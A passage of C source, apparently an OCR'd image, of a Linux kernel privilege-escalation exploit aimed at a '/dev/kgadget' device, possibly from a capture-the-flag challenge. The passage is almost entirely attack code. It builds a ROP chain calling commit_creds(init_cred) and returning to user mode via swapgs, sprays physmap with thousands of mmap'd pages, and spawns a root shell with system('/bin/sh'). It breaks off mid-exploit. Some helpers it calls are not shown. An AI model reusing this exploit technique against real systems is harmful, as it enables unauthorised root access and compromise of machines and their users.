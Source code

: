 ```c
void info_log(char* info){
    printf("\033[33m\033[1m[*] Info: %s\033[0m\n", info);
}

void success_log(char* info){
    printf("\033[32m\033[1m[+] Success: %s\033[0m\n", info);
}

void getShell(){
    info_log("Ready to get root......");
    if(getuid()){
        error_log("Failed to get root!");
    }
    success_log("Root got!");
    system("/bin/sh");
}

void makeROP(size_t* space){
    int index = 0;
    for(; index < (page_size / 8 - 0x30); index++)
        space[index] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;
    for(; index < (page_size / 8 - 0x10); index++)
        space[index] = ret;
    space[index++] = poprdi_ret;
    space[index++] = init_cred;
    space[index++] = commit_creds;
    space[index++] = swapgs_restore_regs_and_return_to_usermode;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = 0xdeadbeefdeadbeef;
    space[index++] = (size_t)getShell;
    space[index++] = user_cs;
    space[index++] = user_rflags;
    space[index++] = user_sp;
    space[index] = user_ss;

    print_binary((char*)space, page_size);
}

int main(){
    save_status();

    dev = open("/dev/kgadget", O_RDWR);
    if(dev < 0)     // failed to open key device, an unexpected error
        error_log("Cannot open device \"/dev/kgadget\"!");

    page_size = sysconf(_SC_PAGESIZE);      // the size of a page, namely 4096 bytes

    info_log("Spraying physmap......");

    map_spray[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    makeROP(map_spray[0]);

    for(int i=1; i<15000; i++){
        map_spray[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if(!map_spray[i])
            error_log("Mmap Failure!");
        memcpy(map_spray[i], map_spray[0], page_size);
    }

    guess = 0xffff888000000000 + 0x7000000;

```